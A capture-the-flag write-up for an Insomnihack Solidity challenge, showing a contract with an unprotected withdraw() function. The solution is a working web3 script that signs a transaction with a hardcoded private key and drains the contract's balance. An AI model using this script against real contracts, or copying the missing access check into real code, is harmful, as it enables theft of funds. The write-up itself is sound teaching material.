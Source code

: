 # Intro2Solidity - web3

## Contracts

### Challenge

We get one contract, and want to get all value of it out of the contract. We also receive a address (including private key) on the chain which we can use to sign transactions.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.1;

contract Intro2Solidity_writeupChallenge{

	constructor() payable {
        require(msg.value == 100 ether,"100ETH required for the start the challenge");
	}

    function withdraw(address payable beneficiary) public{
        beneficiary.transfer(address(this).balance);
    }
}
```

## Solution

This one is pretty easy. They forgot to set the permissions correctly and anyone can just call withdraw() and get all the money. So we will just do this. Below this you can see a script that automatically connects via RPC and does this.

```
const Web3 = require('web3');
const abi = require('./abi.json');

const privateKey = '0xedbc6d1a8360d0c02d4063cdd0a23b55c469c90d3cfbc2c88a015f9dd92d22b3';
const account = '0x133756e1688E475c401d1569565e8E16E65B1337';
const contractAddress = '0x874f54e755ec1e2a9ea083bd6d9c89148cea34d4';
const recipientAddress = '0x133756e1688E475c401d1569565e8E16E65B1337';
const rpcUrl = 'https://intro2solidity.insomnihack.ch:32816';

const web3 = new Web3(rpcUrl);
const contract = new web3.eth.Contract(abi, contractAddress);

async function withdraw(recipient) {
  const nonce = await web3.eth.getTransactionCount(account);
  const gasPrice = await web3.eth.getGasPrice();

  const functionAbi = contract.methods.withdraw(recipient).encodeABI();

  const txParams = {
    to: contractAddress,
    data: functionAbi,
    gasPrice: gasPrice,
    gas: 100000, // Add the gas parameter with a value of your choice
    nonce: nonce
  };

  const signedTx = await web3.eth.accounts.signTransaction(txParams, privateKey);
  const txReceipt = await web3.eth.sendSignedTransaction(signedTx.rawTransaction);
  console.log(`Transaction Hash: ${txReceipt.transactionHash}`);
}

withdraw(recipientAddress);
```

--> Flag